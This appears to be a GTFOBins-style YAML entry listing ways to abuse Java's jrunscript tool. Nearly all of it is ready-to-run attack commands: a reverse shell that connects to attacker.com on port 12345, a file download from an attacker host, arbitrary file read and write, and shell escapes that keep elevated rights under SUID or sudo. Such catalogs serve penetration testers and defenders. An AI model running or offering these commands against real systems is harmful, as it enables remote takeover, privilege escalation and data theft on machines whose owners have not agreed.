 ```yaml
---
description: This tool is installed starting with Java SE 6.
functions:
  shell:
    - code: jrunscript -e "exec('/bin/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)')"
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        jrunscript -e 'var host='"'""$RHOST""'"'; var port='"$RPORT"';
        var p=new java.lang.ProcessBuilder("/bin/bash", "-i").redirectErrorStream(true).start();
        var s=new java.net.Socket(host,port);
        var pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
        var po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){
        while(pi.available()>0)so.write(pi.read());
        while(pe.available()>0)so.write(pe.read());
        while(si.available()>0)po.write(si.read());
        so.flush();po.flush();
        java.lang.Thread.sleep(50);
        try {p.exitValue();break;}catch (e){}};p.destroy();s.close();'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        jrunscript -e "cp('$URL','$LFILE')"
  file-write:
    - code: jrunscript -e 'var fw=new java.io.FileWriter("./file_to_write"); fw.write("DATA"); fw.close();'
  file-read:
    - code: jrunscript -e 'br = new BufferedReader(new java.io.FileReader("file_to_read"));
         while ((line = br.readLine()) != null) { print(line); }'
  suid:
    - description: This has been found working in macOS but failing on Linux systems.
      code: ./jrunscript -e "exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)')"
  sudo:
    - code: sudo jrunscript -e "exec('/bin/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)')"
---
```

